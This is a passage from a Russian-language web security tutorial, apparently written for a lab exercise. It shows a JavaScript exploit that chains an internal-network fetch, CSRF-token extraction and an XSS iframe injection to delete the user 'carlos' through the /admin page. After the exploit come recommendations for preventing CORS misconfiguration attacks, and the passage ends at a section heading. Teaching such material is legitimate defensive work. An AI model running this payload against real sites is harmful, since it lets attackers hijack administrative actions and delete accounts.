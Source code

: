 Удаляем `carlos`, внедряя iframe, указывающий на страницу `/admin`

```html
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url){
	fetch(url).then(r=>r.text().then(text=>
	{
	xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
	}
	))
}

fetchUrl("http://192.168.0.156:8080");
</script>
```

## Как предотвратить CORS-based атаки

Уязвимости CORS возникают в основном из-за неправильной конфигурации. Поэтому предотвращение атак - это проблема конфигурации. В следующих разделах описаны некоторые эффективные средства защиты от CORS-атак

### Правильная настройка cross-origin запросов

Если веб-ресурс содержит конфиденциальную информацию, его происхождение должно быть правильно указано в заголовке `Access-Control-Allow-Origin`

### Разрешайте только доверенные сайты

Это может показаться очевидным, но источники, указанные в заголовке `Access-Control-Allow-Origin`, должны быть только сайтами, которым доверяют. В частности, динамическое отражение происхождения из cross-origin запросов без проверки легко эксплуатируется и его следует избегать

### Избегайте вайтлистинг null

Избегайте использования заголовка `Access-Control-Allow-Origin: null`. cross-origin вызовы ресурсов из внутренних документов и запросы в песочнице могут указывать `null` происхождение. Заголовки CORS должны быть правильно определены в отношении доверенного происхождения для частных и публичных серверов

### Избегайте использования wildcards во внутренних сетях

Избегайте использования подстановочных знаков (wildcards) во внутренних сетях. Одного лишь доверия к конфигурации сети для защиты внутренних ресурсов недостаточно, когда внутренние браузеры могут получить доступ к ненадежным внешним доменам

### CORS не является заменой политик безопасности на стороне сервера
